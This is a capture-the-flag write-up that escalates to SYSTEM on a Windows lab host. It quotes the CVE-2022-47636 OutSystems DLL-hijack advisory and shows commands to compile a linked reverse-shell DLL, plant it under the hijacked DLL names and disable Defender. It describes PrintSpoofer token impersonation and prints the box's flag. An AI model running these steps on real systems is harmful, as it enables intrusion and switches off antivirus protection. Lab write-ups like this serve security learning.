




# 🔥 Excellent (root) 🔥

`Tweey` @ Iku-toppene

## Summary

As Charles, I find a a .oml file, which I will use to perform a dll hijack to get reverse shell and pivot to the Bill user. As Bill, I have the SeImpersonatePrivilege which I will abuse in order to escalate the privileges to nt authority\system

## Shell as Charles
In the /Desktop there is a file TODO.txt which says the following

```
Lunch with Brian Lester
Plan mission to the moon
Fix Project for Money (he checks it like every minute...)
Disable windows autologin for security reasons
```
He mentions some sort of Project that he works on, and that someone checks this every minute. From further manual enumeration I find a file called Project.oml in `\shared`.

### CVE-2022-47636
Searching for exploits in .oml files shows a dll hijack exploit identified in 2022

From reading about the exploit on [exploitdb](https://www.exploit-db.com/exploits/51678), it seems fairly trivial to exploit
```
A DLL hijacking vulnerability has been discovered in OutSystems Service 
Studio 11 11.53.30 build 61739.
When a user open a .oml file (OutSystems Modeling Language), the 
application will load the following DLLs from the same directory:

av_libGLESv2.dll
libcef.DLL
user32.dll
d3d10warp.dll

Using a crafted DLL, it is possible to execute arbitrary code in the 
context of the current logged in user.
```
It is possible to run arbitrary dll files, such as a [reverse shell](https://raw.githubusercontent.com/Hood3dRob1n/Y.A.S.P./refs/heads/master/payloads/reverse-dll/reverse_dll.c). 
With the local ip and port added to the payload and netcat listener running, I compile the payload locally using mingw-w64 and transfer the file to the target machine
```
x86_64-w64-mingw32-gcc reverse_dll.c -shared -lws2_32 -o user32.dll
```

Since I was not sure if all of the DLLs were loaded by project.oml, I also copied the file to the other DLLs listed in the exploit details on [exploitdb](https://www.exploit-db.com/exploits/51678).
```
Copy-Item "user32.dll" -Destination 'av_libGLESv2.dll'
Copy-Item "user32.dll" -Destination 'libcef.dll'
Copy-Item "user32.dll" -Destination 'd3d10warp.dll'
```

## Shell as Bill
Seeing the privileges of the Bill User, I notice that I have access to several privileges.

To make the privlege escalation easier, I begin by turning the anti virus off. 
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
I also notice the `SeImpersonatePrivilege` is enabled, which allows impersonation of any token. There are multiple payloads we can use in order to exploit it such as juicy-potato, SweetPotato and PrintSpoofer. I will use [PrintSpooler](https://github.com/dievus/printspoofer) to exploit it.
After transferring the PrintSpooler.exe to the target machine (I did it using python http server as previously shown), I can run the payload and start cmd as `nt authorith\system`


**Flag: EPT{4nd_th4T_Wa5_3vEn_BETTER!}**
